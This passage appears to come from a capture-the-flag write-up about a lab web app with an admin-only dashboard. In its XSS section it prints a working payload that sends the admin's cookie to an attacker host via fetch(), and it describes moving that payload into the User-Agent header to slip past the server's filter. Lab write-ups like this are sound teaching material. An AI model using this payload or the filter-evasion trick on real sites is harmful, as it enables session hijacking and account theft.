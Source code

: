 By visiting the **/dashboard** endpoint we see that we are not authorized to view that page.

<p>
  <img src="assets/img/headless/dashboard_not.png" 
  alt="Descripción"/>
</p>

## 3. XSS

The fact that it is present:

1. a support form;
2. an "is_admin" cookie;
3. dashboard accessible only by an admin;

It makes me think about the possible presence of an XSS that I need to steal the admin cookie. Then I intercept the request made by the *support* page and insert the following payload in the message field: `<img src=q onerror=fetch('http://IP:1234/'+document.cookie);>`

<p>
  <img src="assets/img/headless/hacking.png" 
  alt="Descripción"/>
</p>

But the server recognizes the hacking attempt. So I tried to receive the cookie by placing the payload in the *User-Agent* field.

<p>
  <img src="assets/img/headless/cookie.png" 
  alt="Descripción"/>
</p>

